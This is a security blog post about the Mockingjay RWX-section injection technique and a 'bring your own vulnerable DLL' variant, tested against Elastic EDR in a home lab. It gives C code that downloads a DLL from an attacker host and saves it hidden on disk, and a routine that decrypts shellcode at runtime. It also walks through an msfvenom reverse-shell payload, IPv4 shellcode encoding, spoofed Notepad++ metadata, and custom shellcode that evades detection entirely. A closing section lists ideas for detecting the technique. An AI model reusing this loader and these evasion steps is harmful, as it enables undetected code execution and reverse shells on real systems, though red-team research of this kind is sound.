

# Mockingjay - BYODLL
## Intro
In June 2023, cybersecurity researchers at Security Joes raised the alert for a [new process injection technique called Mockingjay](https://www.securityjoes.com/post/process-mockingjay-echoing-rwx-in-userland-to-achieve-code-execution) which would be able to evade traditional EDR. The technique consists of abusing default RWX (Read-Write-Execute) sections in a DLL to execute arbitrary code on compromised systems. Security tools such as EDR will often place hooks and monitor for specific Windows APIs calls to decide if a process is malicious. For example, the most common APIs used for process injection are:  

API            | Description {.compact}
-------------- | --------------
VirtualAlloc   | This API is used to allocate memory within the process's address space. In self-injection, it's used to allocate memory to hold the payload.  
RtlMoveMemory  | While not an official API, this is a memory copy operation used to copy the payload code into the allocated memory.  
VirtualProtect | This API is used to change the protection attributes of a memory region. It's often used after allocating memory to make it executable, allowing the payload code to be executed.  
CreateThread   | This API is used to create a new thread within the process. It's often used to start the execution of the payload entry point.

One of the reasons why Mockingjay successfully evades EDR is that it can skip some of these common process injection steps, such as allocating memory, changing memory permissions, and starting a new thread. This is because the vulnerable loaded DLL already provides all that to the attacker.

Loading DLLs with default RWX section to execute code is not new in 2023, it has been used for multiple years in the game hacking community as we can see in [this post in the forum Unknown Cheats from 2018](https://www.unknowncheats.me/forum/2174119-post31.html).

Based on my knowledge and research, there are no DLLs with a RWX section on a default Windows installation. You can use [this Python script](https://github.com/caueb/Mockingjay/blob/main/rwx_finder.py) to check if there are any on yours.
However, the research done by Security Joes found a vulnerable DLL on systems with Visual Studio 2022 Community installed at `C:\Program Files\Microsoft Visual Studio\2022\Community\Common7\IDE\CommonExtensions\Microsoft\TeamFoundation\Team Explorer\Git\usr\bin\msys-2.0.dll.`
This DLL have a RWX section of 16 KB in size, which is enough to store and execute a payload.  
I was very curious to know how this works, so I created a proof-of-concept that loads the vulnerable DLL and self-inject shellcode: https://github.com/caueb/Mockingjay

All this sounds very interesting, however, this technique is limited to compromised systems that contain a vulnerable DLL. While I was wondering if threat actors may target developers now, as they are more likely to have Visual Studio installed, I thought “why not just bring the vulnerable DLL to the compromised machine?”. I decided to modify the code in my POC to download the DLL from the internet, write to disk, and then load the DLL from disk.

## Mockingjay - BYODLL
To test the detection of bringing your own vulnerable DLL, I modified my POC and run against Elastic EDR in my home lab. You can read more about how I have my [home lab setup here](https://caueb.github.io/purple-team-lab/elasticonraspberrypi/).

Essentially I have the following setup:
- 1 x Windows 11 fully updated with Elastic EDR agent (target).
- 1 x Windows 11 fully updated (attacker).
- 1 x Raspberry Pi 4 running Elastic on full prevention mode.

*Side note: I think Elastic do a fantastic job in detecting and preventing threats. The main reason I’m testing against it is the convenience of having a 30-day trial and the challenge to evade detection.*

### Download the DLL & Save to disk
I created a function that will download the vulnerable DLL from a URL and write into disk. I opted to save it in the `C:\ProgramData\` folder, usually is a world writable location:
```C
BOOL GetDllFromUrl(const char* szUrl, const char* savePath) {
    HINTERNET   hInternet       = NULL,
                hInternetFile   = NULL;
    DWORD       dwBytesRead     = NULL;

    // Opening an internet session handle
    hInternet = InternetOpenW(NULL, INTERNET_OPEN_TYPE_DIRECT, NULL, NULL, 0);
    if (hInternet == NULL) {
        return FALSE;
    }

    // Opening a handle to the DLL's URL
    hInternetFile = InternetOpenUrlA(hInternet, szUrl, NULL, NULL, INTERNET_FLAG_RELOAD | INTERNET_FLAG_DONT_CACHE, NULL);
    if (hInternetFile == NULL) {
        InternetCloseHandle(hInternet);
        return FALSE;
    }

    // Open a local file for writing the payload
    HANDLE hFile = CreateFileA(savePath, GENERIC_WRITE, FILE_SHARE_WRITE, NULL, CREATE_ALWAYS,  FILE_ATTRIBUTE_TEMPORARY | FILE_ATTRIBUTE_HIDDEN, NULL);
    if (hFile == INVALID_HANDLE_VALUE) {
        InternetCloseHandle(hInternet);
        InternetCloseHandle(hInternetFile);
        return FALSE;
    }

    // Reading the DLL bytes and writing to the local file
    BYTE buffer[1024];
    DWORD bytesRead;

    while (InternetReadFile(hInternetFile, buffer, sizeof(buffer), &bytesRead) && bytesRead > 0) {
        DWORD bytesWritten;
        WriteFile(hFile, buffer, bytesRead, &bytesWritten, NULL);
    }
    printf("\t[i] File saved to %s\n", savePath);

    CloseHandle(hFile);

    InternetCloseHandle(hInternet);
    InternetCloseHandle(hInternetFile);
    
    return TRUE;
}
```

### Payload
Next, I generated a reverse shell shellcode using Metasploit msfvenom and then used the python script [bintoaes.py](https://gist.github.com/caueb/6fa10a0c95fb2ac7b694771354822eff) to encrypt the shellcode using AES.


The payload is going to be decrypted at runtime using this function (borrowed from reenz0h @SEKTOR7net) to avoid static detections on Metasploit shellcode:
```C
int AESDecrypt(char* payload, unsigned int payload_len, char* key, size_t keylen) {
    HCRYPTPROV hProv;
    HCRYPTHASH hHash;
    HCRYPTKEY hKey;

    if (!CryptAcquireContextW(&hProv, NULL, NULL, PROV_RSA_AES, CRYPT_VERIFYCONTEXT)) {
        return -1;
    }
    if (!CryptCreateHash(hProv, CALG_SHA_256, 0, 0, &hHash)) {
        return -1;
    }
    if (!CryptHashData(hHash, (BYTE*)key, (DWORD)keylen, 0)) {
        return -1;
    }
    if (!CryptDeriveKey(hProv, CALG_AES_256, hHash, 0, &hKey)) {
        return -1;
    }

    if (!CryptDecrypt(hKey, (HCRYPTHASH)NULL, 0, 0, (BYTE*)payload, (DWORD*)&payload_len)) {
        return -1;
    }

    CryptReleaseContext(hProv, 0);
    CryptDestroyHash(hHash);
    CryptDestroyKey(hKey);

    return 0;
}
```

What I did not know was that whenever the EDR detects the combination of the Windows APIs `CreateFileA` (to save the DLL to disk) with `CryptCreateHash`and `CryptHashData` (to decrypt the payload), the EDR would immediately flag my program as malicious since many ransomware use the same.

Decided to simplify things, instead of encrypting, lets just encode the shellcode, this way we do not load any of the Crypt* functions. I will be using IPV4 encoding, while there are many [examples on Github](https://github.com/TheD1rkMtr/Shellcode-Hide/blob/main/2%20-%20Encoding/4%20-%20IPv4%20shellcode/IPfuscation/IPfuscation.cpp), I will implement the one I learned from [Maldev Academy](https://maldevacademy.com/) (Sorry, I can’t share this one).

### Spoofing metadata
In order to make my executable less suspicious I removed the CRT library from the project and added spoofed metadata stolen from Notepad++.exe. If you are interested, I created a short PowerShell script to [extract the metadata from a binary here](https://gist.github.com/caueb/eb0f49a90ca3532b3e04e6c65d7c2acd).


Below is a comparison of the compiled malware(left) and Notepad++(right) executable metadata:


### Execution flow
Let’s recap what the malware will be executing:
1. Download the vulnerable DLL from the attacker machine and save to the target machine disk
2. Load the downloaded vulnerable DLL into the process
3. Map the RWX region of the loaded DLL
4. Decode the Metasploit payload
5. Write the payload into the RWX region
6. Call the RWX region to execute the payload

In the attacker machine, we will be hosting the compiled malware and the vulnerable DLL:


In the target machine, we can use curl to download the malware and then execute:


Elastic does a good job at detecting the Metasploit shellcode executed in memory, but we still get a reverse shell:


Checking the C:\ProgramData\ folder of the target machine revealed that the DLL was indeed downloaded there:


This tells me that the detection is in the Metasploit shellcode we are using and not in the technique itself. The next logical step to bypass the detection is to create a custom shellcode instead of using Metasploit.

I will not get into details how to create one as this post would get too long, but if you are interested, here are a few resources:
- https://h0mbre.github.io/Win32_Reverse_Shellcode/
- https://github.com/Cracked5pider/ShellcodeTemplate

We then create a custom reverse shell shellcode and IPV4 encode it, just like we did with Metasploit. Compile the project, send it to the target, and execute:


This time, no detections.
We receive our reverse shell call in the attacker machine:


Side by side target(left) and attacker(right) machines during execution:


We can conclude that the Mockingjay technique is very evasive, but also that even if the target machine does not have Visual Studio installed, or at least one DLL in the disk with the default RWX sections, it is still possible for attackers to bring their own DLL and exploit.

## Opportunities for detection
There are plenty of opportunities for detection in this technique. 
- To start off - don’t rely on just out-of-the-box detection rules, use of behavioral analysis, and machine learning techniques to identify process injection.
- Create a list of DLLs that contain RWX sections and monitor their use.
- Monitor for unusual processes loading a DLL with RWX sections. In this case, a DLL was downloaded from internet and saved to disk, then loaded back to the process. Look for these characteristics.

For more information about Mockingjay, I recommend reading the original article published by Security Joes:  
- https://www.securityjoes.com/post/process-mockingjay-echoing-rwx-in-userland-to-achieve-code-execution
